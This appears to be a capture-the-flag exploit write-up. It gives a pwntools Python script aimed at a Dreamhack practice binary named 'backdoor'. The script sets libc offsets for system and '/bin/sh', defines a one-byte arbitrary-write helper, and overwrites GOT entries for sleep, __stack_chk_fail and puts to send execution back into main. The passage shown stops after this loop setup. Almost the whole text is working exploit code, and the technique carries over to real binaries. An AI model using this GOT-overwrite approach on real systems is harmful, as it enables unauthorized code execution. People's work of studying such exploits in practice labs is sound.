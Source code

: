### Full exploit

```python
from pwn import *
# context(log_level='debug')

REMOTE = True

if not REMOTE:
    r = process('./release/backdoor')
    __libc_start_main_offset = 0x21ba0
    system_offset = 0x4f420
    binsh_offset = 0x1b3d88
else:
    r = remote('host1.dreamhack.games', 19453)
    __libc_start_main_offset = 0x21b10
    system_offset = 0x4f550
    binsh_offset = 0x1b3e1a

# ex) 1234 -> '4321'
def reverse(n):
    result = ''

    digits = 0
    while 1:
        if int(n / (10 ** digits)) == 0:
            break
        else:
            digits += 1
    
    for digit in range(digits):
        number = int(n / (10 ** (digits - digit - 1)))
        result = str(number) + result
        n %= (10 ** (digits - digit - 1))

    return result

# write 1byte value on addr
def aaw(addr, value):
    r.sendline(str(reverse(value)))
    r.sendline(str(reverse(addr)))

main = 0x4005d3 # main()
no_brute = 0x400590 # no_brute()
puts_plt = 0x400540 # PLT of puts()
puts_got = 0x600bc0 # GOT of puts()
__libc_start_main_got = 0x600b98 # GOT of __libc_start_main()
__stack_chk_fail_got = 0x600bc8 # GOT of __stack_chk_fail()
setbuf_got = 0x600bd0 # GOT of setbuf()
sleep_got = 0x600be0 # GOT of sleep()
stdout = 0x600c00 # global var <stdout>


# make loop

# sleep() -> main+0x23
aaw(sleep_got, (main + 0x23) & 0xff)

# __stack_chk_fail() -> main+0x23
aaw(__stack_chk_fail_got, (main + 0x23) & 0xff)

# puts() -> main+0x33
aaw(puts_got, (main + 0x33) & 0xff)
```